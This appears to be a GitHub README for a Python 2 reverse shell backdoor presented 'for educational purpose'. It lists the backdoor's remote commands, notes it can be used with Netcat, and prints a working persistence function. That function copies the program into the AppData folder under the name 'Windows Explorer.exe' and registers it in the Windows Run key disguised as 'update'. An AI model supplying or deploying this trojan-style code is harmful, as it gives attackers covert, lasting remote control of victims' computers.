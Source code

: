 # Python2-Reverse-Shell-Backdoor
Reverse Shell Backdoor made with Python2 using socket
Made for educational porpuse 
Reverse Shell Backdoor made with Python2 using Socket
TCp/Ip Server
Can use The TCPip server or use Netcat
Commands of the Shell:
"cd"
"pwd"
"descargar"
"exit"
Can be persistent like a trojan
using shutil

def become_Persistent(self):
        evil_file_location = os.environ["appdata"] + "\\Windows Explorer.exe"
        if not os.path.exists(evil_file_location):
            shutil.copyfile(sys.executable, evil_file_location)
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d + "'+ evil_file_location + '"', shell = True)


